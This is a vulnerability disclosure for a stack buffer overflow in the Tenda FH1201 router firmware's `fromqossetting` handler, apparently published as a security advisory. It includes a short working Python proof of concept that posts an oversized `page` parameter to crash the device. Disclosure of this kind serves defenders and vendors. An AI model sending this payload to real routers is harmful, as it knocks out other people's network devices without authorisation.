 ## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3322.html

## Affected version

FH1201 Firmware  V1.2.0.14(408)

## Vulnerability details

The Tenda FH1201 Firmware  V1.2.0.14(408) has a stack overflow vulnerability located in the `fromqossetting` function. This function accepts the `page` parameter from a POST request. The statement `sprintf(v7, "qos_list.asp?page=%s", v4);` leads to a buffer overflow. The user-supplied `page` can exceed the capacity of the `v7` array, thus triggering this security vulnerability.

![image-20240731135303465](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731135303465.png)

## POC

```python
import requests

ip = "192.168.84.101"
url = "http://" + ip + "/goform/qossetting"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240731133213595](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240731133213595.png)